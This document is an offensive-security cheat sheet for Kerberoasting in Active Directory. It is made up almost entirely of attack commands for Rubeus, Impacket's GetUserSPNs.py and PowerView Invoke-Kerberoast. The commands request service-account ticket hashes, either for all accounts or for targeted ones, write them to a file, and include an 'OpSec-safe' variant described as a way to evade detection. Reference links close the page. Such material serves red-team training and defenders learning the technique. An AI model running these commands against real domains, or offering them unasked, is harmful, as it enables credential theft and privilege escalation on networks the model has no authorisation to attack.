 # Kerberoasting

### Kerberoasting with Rubeus

```bash
# Generic Kerberoasting with Rubeus 
.\Rubeus.exe kerberoast /nowrap

# Generic Kerberoasting and saving the output to a file
.\Rubeus.exe kerberoast /nowrap /outfile:C:\Windows\Tasks\kerberoast.txt

# Perform targeted Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:$serviceaccount

# OpSec-safe Kerberoasting with the 'tgtdeleg' trick, filtering out AES-enabled accounts
.\Rubeus.exe kerberoast /rc4opsec
```

### Kerberoasting with Impacket

```bash
# List accounts with SPNs
GetUserSPNs.py $domain/$username:$password -dc-ip $dcip

# Generic Kerberoasting with Impacket
GetUserSPNs.py $domain/$username:$password -dc-ip $dcip -request

# Targeted Kerberoast
GetUserSPNs.py $domain/$username:$password -dc-ip $dcip /user:$serviceaccount -request
```

### Kerberoasting with PowerView

```bash
# Generic Kerberoast with PowerView
Invoke-Kerberoast | fl

# Specify Domain in Kerberoast
Invoke-Kerberoast -Domain $domain | fl
```

### References

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://m365internals.com/2021/11/08/kerberoast-with-opsec/" %}
